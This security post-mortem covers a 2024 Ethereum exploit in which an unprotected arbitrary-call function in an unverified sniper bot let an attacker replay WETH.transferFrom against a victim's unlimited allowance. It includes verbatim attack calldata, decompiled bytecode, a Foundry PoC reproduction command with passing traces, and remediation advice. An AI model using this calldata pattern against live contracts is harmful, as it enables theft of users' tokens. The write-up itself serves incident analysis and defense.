



# Sniper-Bot Exploit — Unprotected Arbitrary-Call Function Drains a Standing WETH Allowance

> One-line summary: an unverified MEV/sniper bot exposes a permissionless `f(address,bytes,uint256,uint256)` that performs `token.call(data)` with **no access control**, letting anyone make the bot replay `WETH.transferFrom(victim, attacker, …)` against the bot's pre-existing unlimited WETH allowance.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do not
> compile together, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> The vulnerable contract is **unverified** on Etherscan; its runtime bytecode and a recovered-selector
> note are saved at [sources/Bot_56974D/](sources/Bot_56974D/).

---

## Key info

| | |
|---|---|
| **Loss** | ~$12K — **5.049899842444876795 WETH** drained from the victim |
| **Vulnerable contract** | Sniper/trading bot (UNVERIFIED) — [`0x56974D5AF75B1eF96722052a57735187E9b91751`](https://etherscan.io/address/0x56974D5AF75B1eF96722052a57735187E9b91751) |
| **Bot owner** | `0x9e2CD48Def15a09F0AD8f9F314990cDB02e19b22` |
| **Victim (whitelisted funder, EOA)** | [`0x7c243E010E086cAaD737D47E5a40A59E8B79E92d`](https://etherscan.io/address/0x7c243E010E086cAaD737D47E5a40A59E8B79E92d) |
| **Attacker EOA** | [`0x0000dAAee5FbC2d3fC5a5C0cB456d2c24e4F81dE`](https://etherscan.io/address/0x0000dAAee5FbC2d3fC5a5C0cB456d2c24e4F81dE) (vanity `0x0000…` prefix) |
| **Attack tx** | [`0x3f0dc68dc89fce3250b9d2de2611384b8af258e83f7a711f666917c5590d13d2`](https://etherscan.io/tx/0x3f0dc68dc89fce3250b9d2de2611384b8af258e83f7a711f666917c5590d13d2) |
| **Chain / block / date** | Ethereum mainnet / 20,738,428 / 2024-09-13 01:32:47 UTC |
| **Compiler** | Solidity **v0.8.25** (recovered from bytecode metadata: `736f6c6343000819`) |
| **Bug class** | Missing access control on an arbitrary external-call primitive + abuse of a standing ERC-20 allowance |

---

## TL;DR

The victim (`0x7c243E…`, an EOA whitelisted by the bot) had granted the bot a near-infinite WETH
approval (`99,999,999,999.998 WETH`) so the bot could trade WETH on their behalf. The bot, however,
exposes a **public, unauthenticated** function (selector `0x213d8e67`) that takes a target `address`
and a raw `bytes` payload and executes `target.call(payload)` — a generic "do an arbitrary call on
any token" helper, intended to be owner/whitelist-gated but in fact reachable by anyone.

The attacker called the bot with:

```
0x213d8e67(
    token = WETH,
    data  = transferFrom(victim, attacker, 5049899842444876795),
    0, 0
)
```

The bot dutifully executed `WETH.transferFrom(victim → attacker, 5.0499 WETH)` using **its own
standing allowance from the victim**. One transaction, no flash loan, no oracle, no math: the entire
WETH balance of the victim was swept to the attacker.

The original DeFiHackLabs PoC modeled only the *outcome* (a direct approve + `transferFrom`). This
write-up reproduces the **actual on-chain attack path** — calling the bot's unprotected entrypoint
with the exact attack calldata — and the simplified version is preserved as
`testPoC_Simplified` for reference.

---

## Background — what the contract does

`0x56974D…` is an **unverified** Ethereum-mainnet contract that behaves like a private MEV / sniper /
copy-trading bot. From the runtime bytecode (saved at
[sources/Bot_56974D/bytecode.txt](sources/Bot_56974D/bytecode.txt)) its public selector table and
recovered semantics are:

| Selector | Recovered meaning |
|---|---|
| `0x8da5cb5b` | `owner()` → `0x9e2CD48Def15a09F0AD8f9F314990cDB02e19b22` |
| `0x3af32abf` | `isWhitelisted(address)` → `1` for the victim, `0` for the attacker |
| `0x3fc8cef3` | `WETH()` getter → `0xC02aaA39…756Cc2` |
| `0x5c11d795` | router `swapExactTokensForTokens(...)` (used by the trading paths) |
| `0xb6f9de95` / `0xfb3bdb41` | other Uniswap-V2-router swap variants (ETH↔token) |
| `0x213d8e67` | **the exploited function** — `f(address token, bytes data, uint256, uint256)` ⇒ `token.call(data)` then forwards leftover ETH to the block builder |

The intended design is a permissioned bot: whitelisted users (like the victim) pre-approve the bot
for their tokens, and the bot — when instructed by its operator — pulls those tokens via
`transferFrom` and trades them on Uniswap. To make that work, the victim handed the bot an effectively
unlimited WETH allowance.

On-chain state read one block before the attack (block 20,738,426, via the PoC probes):

| Fact | Value |
|---|---|
| Victim (`0x7c243E…`) WETH balance | **5.049899842444876795 WETH** |
| Victim ETH balance | 2.1919 ETH |
| Victim → **bot** WETH allowance | **99,999,999,999.998 WETH** (effectively unlimited) |
| Victim → attacker WETH allowance | 0 |
| `isWhitelisted(victim)` | **1** |
| `isWhitelisted(attacker)` | 0 |
| Attacker WETH / ETH balance | 0 / dust |
| Bot is a contract? | yes (12,459 bytes) |
| Victim / attacker are contracts? | no (both EOAs) |

The whole exploit hinges on the combination: **a standing unlimited allowance held by the bot** plus
**a public function that lets anyone make the bot call any token with any data.**

---

## The vulnerable code

The contract is unverified, so the snippet below is the function decompiled from the dispatcher and
function body at the `0x213d8e67` selector. The dispatch entry is:

> `8063213d8e67146101695780632148305e…` — selector `0x213d8e67` jumps to the function body at `0x26f`
> (see [sources/Bot_56974D/bytecode.txt](sources/Bot_56974D/bytecode.txt)).

The function body at `0x26f` reads, in essence:

```solidity
// selector 0x213d8e67  —  PUBLIC, NO onlyOwner / NO isWhitelisted check
function arbitraryCall(address token, bytes calldata data, uint256 a, uint256 b) external {
    // ...decode token (4-byte calldata word), data (bytes at offset 0x80)...
    uint256 c = a - b;                           // 644353... 60643592838203 (sub, unused for the drain)
    (bool ok, ) = token.call(data);              // 602083519301915af1  ← raw CALL with attacker data
    if (!ok) revert();                           // returns "fail" string on failure
    // ...if there is leftover ETH, forward it to block.coinbase / a builder via CALL (4190f1)...
}
```

Decompiled control flow of the exact body (annotated against the bytecode):

```
608036600319011261017f 576004356102878161016e   // arg0: address token
6024356001600160401b03811161017f57 6102a6...     // arg1: bytes data (dynamic, offset 0x80)
9060443560643592 838203918211610352              // arg2 - arg3 (subtraction, value forwarding bookkeeping)
5f928392 602083519301 915af1                      // <-- token.call(data)   (CALL opcode)
3d1561034d57 ... 15610317                         // check returndata / success
...11985a5b1959081d1bc818d85b1b...                // "fail" revert string on !success
... 4190f1                                         // forward remaining ETH to a builder address
```

There is **no `SLOAD` of the owner slot and no `isWhitelisted` lookup** anywhere on the path to the
`CALL`. Compare this to the bot's *trading* functions (e.g. selectors `0x4ffc9126`, `0xa85ef678`,
`0xc25ddce0`), which all begin with:

```
335f52600660205260ff…405f205416151514612730   // require(isWhitelisted[msg.sender]) — "Not whitelisted"
```

i.e. a `mapping(address => bool) isWhitelisted` gate. That gate is simply **absent** on `0x213d8e67`.

### The exact attack calldata

```
0x213d8e67
  000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2   // token = WETH
  0000000000000000000000000000000000000000000000000000000000000080   // offset → bytes data
  0000000000000000000000000000000000000000000000000000000000000000   // arg2 = 0
  0000000000000000000000000000000000000000000000000000000000000000   // arg3 = 0
  0000000000000000000000000000000000000000000000000000000000000064   // data.length = 100
  23b872dd                                                           // transferFrom selector
  0000000000000000000000007c243e010e086caad737d47e5a40a59e8b79e92d   //   from   = victim
  0000000000000000000000000000daaee5fbc2d3fc5a5c0cb456d2c24e4f81de   //   to     = attacker
  0000000000000000000000000000000000000000000000004614d926b43a5bfb   //   amount = 5.0499e18
```

(The PoC embeds this verbatim — see [test/unverified_5697_exp.sol](test/unverified_5697_exp.sol).)

---

## Root cause — why it was possible

Three independent design decisions compose into a one-shot theft:

1. **Unauthenticated arbitrary external call.** `0x213d8e67` lets *anyone* tell the bot to execute
   `token.call(arbitraryData)`. Every other value-moving function in the bot checks
   `isWhitelisted[msg.sender]`; this one does not. An arbitrary-call primitive without access control
   is equivalent to giving callers the bot's full identity and authority.

2. **The bot holds a standing, effectively unlimited token allowance.** Because the victim approved
   the bot for ~10¹¹ WETH so it could trade on their behalf, the bot is permanently authorized to move
   the victim's WETH. The bot's *identity* — not the caller's — is what `WETH.transferFrom` checks.

3. **`msg.sender` for the inner `transferFrom` is the bot, not the attacker.** When the bot performs
   `WETH.call(transferFrom(victim, attacker, x))`, WETH sees `msg.sender == bot` and checks
   `allowance[victim][bot]`, which is unlimited. The attacker never needed any approval of their own
   (`allowance[victim][attacker] == 0`).

In other words, the attacker borrows the bot's authority. The contract effectively says "I will run
any call you give me," and the victim has pre-authorized the bot to spend their WETH — so the attacker
chains the two into "make the bot spend the victim's WETH to me."

This is a textbook **arbitrary-call / missing-access-control** vulnerability, made high-impact by the
presence of live token allowances. It needs no flash loan, no price manipulation, and no special
timing.

---

## Preconditions

- A victim has granted the bot a non-trivial ERC-20 allowance (here: ~unlimited WETH). The larger the
  standing allowance and the victim's balance, the larger the loss (capped at `min(balance, allowance)`).
- The victim holds a spendable balance of that token at attack time (5.0499 WETH).
- The bot exposes the unauthenticated `0x213d8e67` arbitrary-call path (it does).
- That is the entire precondition set — anyone can call it, at any time, in a single transaction.

---

## Step-by-step attack walkthrough (with ground-truth numbers from the trace)

All figures are taken directly from the verbose trace in [output.txt](output.txt).

| # | Step | Actor / call | Concrete values | Effect |
|---|------|--------------|-----------------|--------|
| 0 | **Initial state** | (read) | victim WETH = 5.049899842444876795; `allowance[victim][bot]` = 99,999,999,999.998 WETH; attacker WETH = 0 | Bot is pre-authorized to spend victim's WETH. |
| 1 | **Single attack call** | attacker EOA → bot `0x213d8e67(WETH, transferFrom(victim, attacker, 5.0499e18), 0, 0)` | bot does `WETH.call(...)` | Bot relays the transfer using its own allowance. |
| 1a | ↳ inner call | bot → `WETH.transferFrom(victim, attacker, 5049899842444876795)` | `Transfer(victim → attacker, 5.0499e18)`; allowance slot `victim/bot` decremented | **Victim's entire WETH balance → attacker.** |
| 1b | ↳ tail | bot → builder `0x9522229…BAfe5`.fallback() | value 0 (no leftover ETH) | Builder-fee forwarding path (no-op here). |
| 2 | **Final state** | (read) | attacker WETH = 5.049899842444876795; victim WETH = 0 | Drain complete. |

The reproduced trace (canonical `testPoC`):

```
attacker WETH before: 0.000000000000000000
victim   WETH before: 5.049899842444876795
  bot::213d8e67(...)
    └─ WETH9::transferFrom(victim, attacker, 5.049899842444876795e18)
         emit Transfer(victim → attacker, 5.0499e18)
attacker WETH after : 5.049899842444876795
victim   WETH after : 0.000000000000000000
```

### Profit / loss accounting

| Party | Asset | Before | After | Delta |
|---|---|---:|---:|---:|
| Victim `0x7c243E…` | WETH | 5.049899842444876795 | 0 | **−5.0499 WETH** |
| Attacker `0x0000dAA…` | WETH | 0 | 5.049899842444876795 | **+5.0499 WETH** |
| Attacker | ETH | (gas only) | (gas only) | ~0 net |

**Net attacker profit ≈ 5.0499 WETH ≈ $12K** at the ~$2,350/ETH price on 2024-09-13. Gas was the only
cost; no capital was at risk.

---

## Diagrams

### Sequence of the attack



### Authority / allowance state evolution



### Why the access-control gap is fatal



---

## Remediation

1. **Add access control to the arbitrary-call function.** `0x213d8e67` must enforce
   `require(msg.sender == owner)` (or `require(isWhitelisted[msg.sender])`, consistent with the bot's
   other functions). This single check would have prevented the entire incident.
2. **Avoid generic arbitrary-call helpers entirely.** A function that performs `target.call(data)` with
   caller-supplied `target` and `data` grants the contract's full authority — including all its token
   allowances — to whoever can reach it. If a low-level call helper is truly needed, restrict both the
   selectors and the targets it may invoke (allowlist), and never expose a raw `transferFrom` relay.
3. **Minimize standing allowances.** Users should not grant unlimited allowances to bots/routers.
   Approve only what is needed for the next operation, or use `permit`/just-in-time approvals so a
   compromised or buggy contract cannot drain the full balance.
4. **Separate "trade for me" authority from "call anything" authority.** The bot conflated a trading
   helper with a fully general call primitive. Keep value-moving primitives narrow, typed, and
   individually gated.
5. **Publish and audit the source.** This contract was deployed unverified; the missing-auth bug is
   trivially visible in source review but easy to overlook in opaque bytecode. Verification plus a
   basic access-control review would have caught it pre-deployment.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile together under `forge test`):

```bash
_shared/run_poc.sh 2024-09-unverified_5697_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 20,738,427). `foundry.toml`
  uses an Infura archive endpoint; if a key returns `401 invalid project id`, swap `/v3/<key>` for a
  different key (the setup pre-configures several).
- `testPoC` reproduces the real attack path (calling the bot's unprotected `0x213d8e67` with the exact
  on-chain calldata). `testPoC_Simplified` is the original outcome-only model (direct approve +
  `transferFrom`). Both pass.

Expected tail:

```
[PASS] testPoC() (gas: 58770)
  attacker WETH before: 0.000000000000000000
  victim WETH before: 5.049899842444876795
  attacker WETH after: 5.049899842444876795
  victim WETH after: 0.000000000000000000
[PASS] testPoC_Simplified() (gas: 66586)
Suite result: ok. 2 passed; 0 failed; 0 skipped
```

---

*References:*
- *TenArmor alert: https://x.com/TenArmorAlert/status/1834432197375533433*
- *Attack tx: https://etherscan.io/tx/0x3f0dc68dc89fce3250b9d2de2611384b8af258e83f7a711f666917c5590d13d2*
- *Vulnerable contract (unverified): https://etherscan.io/address/0x56974D5AF75B1eF96722052a57735187E9b91751*
